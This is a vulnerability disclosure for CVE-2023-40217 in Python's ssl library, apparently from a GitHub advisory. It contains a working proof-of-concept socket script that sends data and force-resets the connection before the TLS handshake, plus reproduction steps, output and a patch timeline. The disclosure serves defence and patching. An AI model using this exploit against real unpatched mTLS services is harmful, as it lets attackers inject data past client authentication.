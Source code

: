 # Summary

Python ssl library in Python before 3.8.18, 3.9.x before 3.9.18, 3.10.x before 3.10.13, and 3.11.x before 3.11.5 did not properly handle a case where the TCP connection was terminated before a TLS handshake was made. This caused the library to return a ssl.SSLSocket object with TCP data in its buffer. An application could then read this data from the SSLSocket as it would be post-handshake TLS encrypted data.

An attacker could exploit this vulnerability by connecting to a TLS server, sending payload data to the socket and immediately force close the socket. The TLS server would then assume that the TLS handshake and any client authentication was done and read the attacker supplied data. The vulnerability affects mostly mTLS Python implementations.

The vulnerability severity is CVSS is 8.6 HIGH (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:H/A:N)

The exploit can be triggered reliably by sending TCP data to a Python SSLSocket followed directly by a RST packet. This can be implemented with Python with the following code:

```import socket
import struct

# Connect to a server with TCP
upstream_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
upstream_socket.connect(('127.0.0.1', 12345))
# Exploit part 1: set the socket to be killed immediately when closed
upstream_socket.setsockopt(socket.SOL_SOCKET, socket.SO_LINGER, struct.pack('ii', 1, 0))
upstream_socket.setblocking(False)

# Exploit part 2: Send malicious data instead of TLS handshake and immediately force close the connection
data = b"exploit by aapo"
upstream_socket.send(data)
upstream_socket.close()```

The ```socket.setsockopt()``` and ```socket.setblocking()``` options ensure that the socket is not closed gracefully but is forcibly terminated when ```socket.close()``` is called.

# Reproduction

 1. Run a basic Python ssl server with a vulnerable Python version

    ```python3 python-ssl-server-victim.py```

 2. Connect to the server with a standard TLS client

    ```openssl s_client -connect 127.0.0.1:12345```

 3. Observe that the server does not accept the connection as the client does not have a proper client certificate

    ```$ python3 python-ssl-server-victim.py
    Traceback (most recent call last):
    File "python-ssl-server-victim.py", line 18, in <module>
      tls_socket = ctx.wrap_socket(conn, server_side=True)
    File "/usr/lib/python3.7/ssl.py", line 412, in wrap_socket
      session=session
    File "/usr/lib/python3.7/ssl.py", line 853, in _create
      self.do_handshake()
    File "/usr/lib/python3.7/ssl.py", line 1117, in do_handshake
      self._sslobj.do_handshake()
    ssl.SSLError: [SSL: PEER_DID_NOT_RETURN_A_CERTIFICATE] peer did not return a certificate (_ssl.c:1056)```

 4. Restart the server and connect to it with the exploit POC

    ```python3 python-ssl-client-exploit.py```

 5. Observe that the server prints out the attacker chosen payload

    ```$ python3 python-ssl-server-victim.py
    b'exploit by aapo'```

 6. If the same server code is run with patched Python version, the exploit will not work

    ```$ python3.13 python-ssl-server-victim.py 
    Traceback (most recent call last):
      File "/usr/local/lib/python3.13/ssl.py", line 992, in _create
        self.getpeername()
    OSError: [Errno 107] Transport endpoint is not connected
    
    During handling of the above exception, another exception occurred:
    
    Traceback (most recent call last):
      File "python-ssl-server-victim.py", line 18, in <module>
        tls_socket = ctx.wrap_socket(conn, server_side=True)
                     ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
      File "/usr/local/lib/python3.13/ssl.py", line 455, in wrap_socket
        return self.sslsocket_class._create(
               ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
      File "/usr/local/lib/python3.13/ssl.py", line 1024, in _create
        raise notconn_pre_handshake_data_error
    ssl.SSLError: Closed before TLS handshake with data in recv buffer.```

 7. The vulnerability can be used also from the server side if the client reads data before sending any

    ```python3 python-ssl-server-exploit.py```
    ```$ python-ssl-client-victim.py
    b'exploit by aapo'```

# Additional Materials

 * Detailed advisory made together with the Python security team: [https://mail.python.org/archives/list/security-announce@python.org/thread/PEPLII27KYHLF4AK3ZQGKYNCRERG4YXY/](https://mail.python.org/archives/list/security-announce@python.org/thread/PEPLII27KYHLF4AK3ZQGKYNCRERG4YXY/)
 * GitHub issue for the vulnerability [https://github.com/python/cpython/issues/108310](https://github.com/python/cpython/issues/108310)
 * Seth Larsons detailed writeup from the Python Security Response Team perspective [https://sethmlarson.dev/security-developer-in-residence-weekly-report-8](https://sethmlarson.dev/security-developer-in-residence-weekly-report-8

# Timeline

 * August 8,2023: Reported by Aapo Oksman to security@python.org.
 * August 8, 2023: Acknowledged the report.
 * August 9, 2023: Acknowledgement of the vulnerability, sent CVE ID request to MITRE.
 * August 10, 2023: CVE-2023-40217 assigned by MITRE.
 * August 15, 2023: Patch authored by Gregory P Smith, reviewed by Thomas Wouters.
 * August 22, 2023: Patch applied to feature and security branches by Łukasz Langa.
 * August 24, 2023: Python 3.11.5, 3.10.13, 3.9.18, 3.8.18 are published containing the fix for CVE-2023-40217.
 * August 24, 2023: Advisory published.
